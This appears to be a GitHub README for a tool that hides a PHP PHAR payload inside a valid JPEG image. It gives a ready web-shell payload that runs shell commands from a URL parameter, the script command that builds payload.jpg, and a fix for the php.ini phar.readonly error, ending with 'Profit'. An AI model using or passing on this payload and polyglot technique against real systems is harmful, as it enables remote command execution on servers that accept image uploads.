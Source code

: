 # JPEG PHAR Fusion

![Very cool picture](https://github.com/Sarapuce/jpeg-phar-fusion/blob/main/fusion.jpeg)

This is a simple tool to add a phar payload at the end of a valid jpeg image.

## Requierments
- Python 3
- Php (Tested with php 8)

## Usage
1. Clone the repo

`git clone https://github.com/Sarapuce/jpeg-phar-fusion.git`

2. Choose a php payload finishing by `__HALT_COMPILER();` for example :

`<?php system($_GET["cmd"]); __HALT_COMPILER(); ?>`

3. Create the payload with the script

`python3 phar_creator.py '<?php system($_GET["cmd"]); __HALT_COMPILER(); ?>'`

4. The file is in `payload.jpg`

5. Profit


## It doesn't work 😡
Do you have the error 
> PHP Fatal error:  Uncaught UnexpectedValueException: creating archive "payload.phar" disabled by the php.ini setting phar.readonly

You need to enable the phar creation in php.ini

To locate your php.ini 

`php --ini`

Then edit this line in your file

`;phar.readonly = Off`

into

`phar.readonly = Off`
